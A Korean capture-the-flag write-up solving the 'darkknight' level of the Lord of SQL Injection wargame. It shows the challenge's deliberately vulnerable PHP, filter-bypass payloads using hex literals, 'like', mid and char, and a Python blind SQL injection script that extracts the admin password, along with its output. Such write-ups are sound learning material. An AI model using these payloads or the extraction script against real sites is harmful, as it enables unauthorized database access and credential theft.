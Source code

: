 ```yaml
---
title: "[Lord of SQL Injection] LoS - darkknight 문제풀이"
date: 2018-07-31
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


아 뭔가 쓸데없이 오타도 많이내고, 뭔가 자잘한 삽질을 많이 한 문제이다.
잠을 제대로 못자서 그런건지 바보같은 삽질을 했다.
`darkknight` 라는 문제인데, 얘도 `Blind SQL Injection` 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------------------------
query : select id from prob_darkknight where id='guest' and pw='' and no=
---------------------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

이번엔 `ascii`도 사용을 못하고 `'`도 사용할 수 없다.
그럼 쿼리문에서 사용하는 `id = 'admin'`이라는 문자를 사용할 수 없다.
이 문제에 대해서는 금방 답을 찾았다.
바로 `hex` 값을 이용하는 것이다.
`id = 'admin'` 대신 `id = 0x61646d696e`를 입력해도 같은 결과를 얻을 수 있다.
그럼 `admin`의 `pw`의 길이를 구하는 쿼리는 아래와 같이 완성된다.  

```plain
?pw=1&no=0 or id like 0x61646d696e and length(pw) like 1
```

문제는 `pw`를 한 글자 씩 알아낼 때 이다.
`'`를 사용할 수 없으므로, `mid` 함수를 통해 `pw`를 한 글자 씩 뽑는다 하더라도 비교를 할 수가 없다.

처음에는 MySQL에 있는 `hex` 함수를 사용할까 했다.
여기서 삽질한게, `hex`는 `10진수를 16진수 값으로` 혹은 `16진수를 10진수 값으로` 바꾸어주는 함수인데, 나는 이걸 알고있었는데도 `16진수 값을 입력하면 비교가 되겠지!` 하고 생각했다.
추출되는 값은 `char` 형태의 문자기 때문에 당연히 비교할 수 없다.

그 다음에는 `char` 함수를 사용하는 것을 생각했다.
여기서 두번째 삽질을 했는데, `char` 함수의 인자는 `10진수 숫자`가 들어가야 한다.
근데 코드를 이 전에 풀었던 코드를 가져와 살짝만 수정해서 사용하다보니, 파이썬 코드에서 `chr(i)`를 쿼리의 `char` 함수의 인자로 넣어주고 있었다.  

문제가 안풀리길래 `도대체 왜지...` 이러다가 쿼리를 출력 해 보고서야 깨달았다.
쨌든 `pw`를 구하는 쿼리는 다음과 같은 형태가 된다.  

```plain
?pw=1&no=0 or id like 0x61646d696e and mid(pw, 1, 1) like char(48)
```

우여곡절 끝에 완성된 코드는 다음과 같다.  

```python
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1&no=0 or id like 0x61646d696e and length(pw) like " + str(i)
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1&no=0 or id like 0x61646d696e and mid(pw, " + str(j) + ", 1) like char(" + str(i) + ")"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

드디어 제대로 된 결과를 얻을 수 있었다.
쓸데없는 삽질 후에 얻은 값진 `admin`의 `pw`이다.  

```bash
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 0B
[+] Found 3 : 0B7
[+] Found 4 : 0B70
[+] Found 5 : 0B70E
[+] Found 6 : 0B70EA
[+] Found 7 : 0B70EA1
[+] Found 8 : 0B70EA1F
[+] Found password :  0B70EA1F
[+] End
```

알파벳 소문자로 바꿔서 아래와 같이 입력하면 문제가 풀린다.  

```plain
?pw=0b70ea1f
```

---

```php
--------------------------------------------------------------------------------------------------------------
query : select id from prob_darkknight where id='guest' and pw='0b70ea1f' and no=
--------------------------------------------------------------------------------------------------------------

DARKKNIGHT Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

---

```plain
DARKKNIGHT Clear!!
```